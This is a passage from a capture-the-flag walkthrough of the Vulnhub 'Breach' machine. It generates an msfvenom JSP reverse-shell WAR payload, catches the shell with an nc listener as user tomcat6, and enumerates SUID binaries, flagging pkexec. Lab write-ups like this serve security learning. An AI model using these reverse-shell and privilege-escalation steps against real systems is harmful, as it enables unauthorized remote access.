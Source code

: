 So lets upload the msfvenom payload for reverse shell access →

I used this payload in this case →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Breach/1]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.3 LPORT=4444 -f war -o shell.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes
Saved as: shell.war
```
{: .nolineno}
{: .nolineno}

I loaded this url and I got the call back →

![Untitled](/Vulnhub-Files/img/Breach/Untitled%2016.png)

As a Response I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Breach/1]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [192.168.110.3] from (UNKNOWN) [192.168.110.140] 43040
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat6@Breach:/var/lib/tomcat6$ whoami
whoami
tomcat6
tomcat6@Breach:/var/lib/tomcat6$ id
id
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
tomcat6@Breach:/var/lib/tomcat6$
```
{: .nolineno}
{: .nolineno}

I looked for SUIDs now and I got one pkexec so I checked its version and since it is vulnerable so I exploited it and tried to get the root →

```bash
tomcat6@Breach:/$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/ping6
/bin/mount
/bin/ping
/usr/bin/mtr
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/pkexec
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```